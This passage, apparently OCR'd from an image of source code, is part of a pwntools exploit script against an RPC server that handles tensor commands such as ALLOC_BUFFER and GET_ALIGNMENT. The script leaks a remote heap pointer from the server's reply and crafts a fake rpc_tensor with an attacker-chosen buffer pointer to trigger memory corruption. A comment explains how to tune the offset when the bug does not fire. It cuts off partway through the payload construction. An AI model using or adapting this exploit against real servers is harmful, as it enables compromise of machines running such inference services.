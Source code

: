 ```
pd+= cmd + input_size + content
p.send(pd)
recv = p.recvall(timeout=1)
p.close()


p = remote("127.0.0.1",50052)

pd = b''
cmd = p8(GET_ALIGNMENT)
content = b''
input_size = p64(len(content))
pd+= cmd + input_size + content

cmd = p8(ALLOC_BUFFER)
content = p64(0x100)
input_size = p64(len(content))
pd+= cmd + input_size + content
p.send(pd)
recv = p.recvall(timeout=1)
remote_ptr = u64(recv[0x18:0x20])
sz = u64(recv[0x20:0x28])
log.success(f"remote_ptr:{hex(remote_ptr)},size:{sz}")
p.recvall(timeout=1)
p.close()

'''
When the vulnerability cannot be triggered, you might want to adjust the next_ptr variable in the script to the buffer address returned by ALLOC_BUFFER.
'''
next_ptr = remote_ptr + 0x160
log.success(f'next_ptr:{hex(next_ptr)}')


p = remote("127.0.0.1",50052)
cmd = p8(ALLOC_BUFFER)
content = p64(0x100)
input_size = p64(len(content))
pd = cmd + input_size + content
leak_address = remote_ptr + 0x90

#fake a rpc_tensor
rpc_tensor_pd = flat(
    {
        0: [
            0x1,  # id
            p32(2),  # type
            p64(next_ptr),  # buffer
            [  # ne
                p32(0xdeadbeef),
                p32(0xdeadbeef),
                p32(0xdeadbeef),
                p32(0xdeadbeef),
            ],
            [  # nb
                p32(1),
                p32(1),
                p32(1),
                p32(1),
            ],
            p32(0),  # op
            [p32(0)] * 16,  # op_params (corrected from 8 to 16)
            p32(0),  # flags
```